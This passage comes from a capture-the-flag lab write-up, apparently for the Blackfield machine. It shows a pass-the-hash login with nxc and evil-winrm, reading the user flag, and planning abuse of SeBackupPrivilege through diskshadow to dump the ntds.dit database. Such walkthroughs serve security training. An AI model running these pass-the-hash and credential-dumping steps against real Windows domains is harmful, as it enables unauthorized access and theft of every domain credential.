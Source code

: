 The hash for the `Administrator` account does not work, but for the `svc_backup` account does:

```bash
$ nxc winrm 10.10.10.192 -u svc_backup -H 96<REDACTED>0d
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:96<REDACTED>0d (Pwn3d!)
```

Get a shell as `svc_backup` and compromise `user.txt`:

```bash
$ evil-winrm -i 10.10.10.192 -u svc_backup -H 96<REDACTED>0d

<SNIP>
*Evil-WinRM* PS C:\Users\svc_backup\Documents> type ..\desktop\user.txt
39<REDACTED>43
```

Check user's information:

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all

<SNIP>

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
<SNIP>


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can exploit the **SeBackupPrivilege** (*[Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)*) and dump the **ntds.dit** database by:

- Writing a small script for the ***[diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)*** utility to expose the *c:* drive
- Convert the script in a Windows-compatible format
- Upload the script on the target
- Move to a directory with write access
- Expose the shadow copy
- Download the _ntds.dit_ database
